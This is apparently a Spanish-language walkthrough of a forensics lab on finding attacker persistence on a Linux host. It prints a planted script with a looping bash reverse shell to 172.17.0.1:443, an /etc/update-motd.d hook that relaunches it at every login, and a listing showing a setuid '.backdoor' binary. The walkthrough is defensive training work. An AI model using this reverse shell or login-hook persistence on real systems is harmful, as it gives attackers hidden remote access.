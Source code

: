 ```bash
user@ng-2122606-forensicspersistence-ikbsi-84dbf79f54-tlw9b:~$ sudo cat /var/lib/private/connectivity-check
[sudo] password for user:
#!/bin/bash

while true; do
    nohup bash -i >& /dev/tcp/172.17.0.1/443 0>&1;
    sleep 10;
done
```

Una shell bastate evidente, podemos con nuestros permisos de sudo eliminar este fichero y terminar el proceso con `kill -9 <PID>`: 

Pero parece que falta algo por eliminar, así que podemos buscar ficheros con este nombre:

```bash 
root@ng-2122606-forensicspersistence-sceul-676dc87c7d-jj4nv:/home/user# find / -type f -name "*connectivity-check*" 2>/dev/null
/etc/update-motd.d/30-connectivity-check 
```

**/etc/update-motd.d/** es un directorio que contiene una serie de scripts numerados (00-header, 10-help-text, …, 90-footer). Cada vez que un usuario inicia sesión (por SSH, terminal virtual, etc.) o se ejecuta run-parts /etc/update-motd.d/, todos estos scripts se ejecutan en orden numérico y su salida se concatena para formar el mensaje que ves antes del prompt.

```bash 
t@ng-2122606-forensicspersistence-sceul-676dc87c7d-jj4nv:/home/user# cat /etc/update-motd.d/30-connectivity-check
#!/bin/bash

nohup /var/lib/private/connectivity-check &
```

- nohup … &: lanza el binario /var/lib/private/connectivity-check en segundo plano, desvinculándolo de la terminal (ignora señales de desconexión).
- Ejecución en cada login: porque está en update-motd.d, se invoca cada vez que alguien ingresa al sistema, sin necesidad de privilegios extra ni cron.



------

Ahora podemos ejecutar el siguiente comando: 

```bash 
user@ng-2122606-forensicspersistence-syri7-745757d665-vgl46:~$ ll
total 1184
drwxr-xr-x 1 user user    4096 Jul 16 05:54 ./
drwxr-xr-x 1 root root    4096 May 14  2021 ../
-rwsr-xr-x 1 root root 1183448 May 14  2021 .backdoor*
-rw-r--r-- 1 user user     220 Feb 25  2020 .bash_logout
-rw-rw-r-- 1 root root    3855 Apr 23  2021 .bashrc
drwx------ 2 user user    4096 Jul 16 05:54 .cache/
-rw-r--r-- 1 user user     807 Feb 25  2020 .profile
```
